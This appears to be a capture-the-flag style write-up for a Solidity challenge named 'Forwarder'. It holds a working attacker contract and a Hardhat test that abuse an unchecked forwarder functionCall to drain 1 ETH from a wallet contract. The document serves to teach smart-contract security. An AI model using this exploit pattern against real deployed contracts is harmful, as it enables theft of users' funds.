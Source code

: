 # Forwarder

## Goals

=> Steal the 1 ETH from the wallet and transfer to the attacker Wallet

### Hints

- Business logic errors (and ABI encoding Prerequisite)

### Solution

- We can just make a low level call to the forwarder which will then call the wallet and send us the ether if we setup the data correct for the low level call going from the Forwarder contract to the wallet

### Attacker Contract

```solidity
contract ForwarderAttacker {
    Forwarder forwarder;
    Wallet wallet;

    constructor(address _forwarder, address _wallet) {
        forwarder = Forwarder(_forwarder);
        wallet = Wallet(_wallet);
    }

    function attack(address destination, uint256 amount) external {
        bytes memory data = abi.encodeWithSignature(
            "sendEther(address,uint256)",
            destination,
            amount
        );
        forwarder.functionCall(address(wallet), data);
    }
}
```

### Test

```javascript
it('conduct your attack here', async () => {
	const AttackerFactory = await ethers.getContractFactory(ATTACKER_NAME);
	const attackerContract = await AttackerFactory.connect(attackerWallet).deploy(
		forwarderContract.address,
		walletContract.address
	);
	await attackerContract
		.connect(attackerWallet)
		.attack(attackerWallet.address, ethers.utils.parseEther('1'));
});
```
